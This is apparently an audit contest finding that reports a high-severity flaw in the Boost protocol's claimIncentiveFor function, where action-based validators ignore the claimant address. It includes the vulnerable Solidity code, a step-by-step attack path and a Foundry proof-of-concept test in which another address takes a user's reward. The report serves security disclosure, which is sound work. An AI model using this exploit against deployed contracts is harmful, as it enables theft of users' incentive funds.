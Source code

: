 Beautiful Wintergreen Gorilla

High

# Action-Based Validators Allows Incentive Theft

### Summary

The `claimIncentiveFor` function in the Boost contract works correctly when called with a signature-based validator, ensuring proper claimant validation. 

When using other validators, such as actions it can be exploited to steal reward of users due to insufficient validation of the `claimant` parameter.

### Root Cause

The issue arises from improper validation of the `claimant` parameter during the `claimIncentiveFor` function call.

https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/78930f2ed6570f30e356b5529bd4bcbe5194eb8b/boost-protocol/packages/evm/contracts/BoostCore.sol#L164

```solidity
    function claimIncentiveFor(
        uint256 boostId_,
        uint256 incentiveId_,
        address referrer_,
        bytes calldata data_,
        address claimant
    ) public payable nonReentrant {
    
        BoostLib.Boost storage boost = _boosts[boostId_];
        if (msg.value < claimFee) revert BoostError.InsufficientFunds(address(0), msg.value, claimFee);

        _routeClaimFee(boost, referrer_);

        // wake-disable-next-line reentrancy (false positive, function is nonReentrant)
        if (!boost.validator.validate(boostId_, incentiveId_, claimant, data_)) revert BoostError.Unauthorized();
        // incentive id is not used in the hash
        if (!boost.incentives[incentiveId_].claim(claimant, data_)) {
            revert BoostError.ClaimFailed(claimant, data_);
        }
    }  
```


When the `validator` is set to an action like `ERC721MintAction`. The validation only relies on the `data_` field, neglecting other critical parameters like  `claimant`. As a result, the incentives can be claimed for any user, as long as the `data_` payload is manipulated correctly, bypassing ownership.

https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/78930f2ed6570f30e356b5529bd4bcbe5194eb8b/boost-protocol/packages/evm/contracts/actions/ERC721MintAction.sol#L54

```solidity
function validate(uint256, /*unused*/ uint256, /* unused */ address, /*unused*/ bytes calldata data_)
```


### Attack Path

1. The attacker identifies a legitimate Boost with available incentives and prepares the necessary `data_` payload that would pass the weak validation.

2. The attacker calls the `claimIncentiveFor` function with the legitimate `data_` payload and a fabricated claimant address. Due to insufficient validation of the claimant, the function allows the attacker to claim the incentive.

3. The incentive is sent to the attacker’s designated claimant address, effectively stealing the reward intended for a legitimate user.

4.  The attacker can repeat the process for multiple Boosts or incentives, draining the available rewards and preventing legitimate users from claiming their incentives

### Impact

An attacker can exploit the weak validation mechanism to steal incentives from all eligible users.

### PoC

run in `test/e2e/EndToEndBasic.t.sol`

```solidity

    function test__steal_rewards() public {
        // "Given that I am eligible for a Boost"
        BoostLib.Boost memory boost = _given_that_I_am_eligible_for_a_boost();

        uint256 mintFee = ERC721MintAction(address(boost.action)).value();
        bytes memory mintPayload = boost.action.prepare(abi.encode(address(this)));
        (bool success,) = ERC721MintAction(address(boost.action)).target().call{value: mintFee}(mintPayload);
        assertTrue(success);

        // once user complete the action, attacker will claim the reward
        address alice = vm.addr(101);
        
        
        uint256 boostId = 0; // This is the only Boost we've created = 0
        uint256 incentiveId = 0; // This is the only AIncentive in that Boost = 0
        uint256 tokenId = 1; // This is the tokenId we just minted = 1
        assertEq(erc20.balanceOf(alice), 0);

        // alice call claimIncentiveFor
        // if alice knows tokenId she can easly get the owner
        vm.prank(alice);
        core.claimIncentiveFor{value: core.claimFee()}(
            boostId, 
            incentiveId, 
            address(0), 
            abi.encode(address(this), abi.encode(tokenId)), // construct the data
            alice // pass her address as claimant
        );

        assertEq(erc20.balanceOf(alice), 1e20);
    }
```

### Mitigation

Strengthening claimant address validation, especially in action-based validators, is necessary to prevent such exploits.
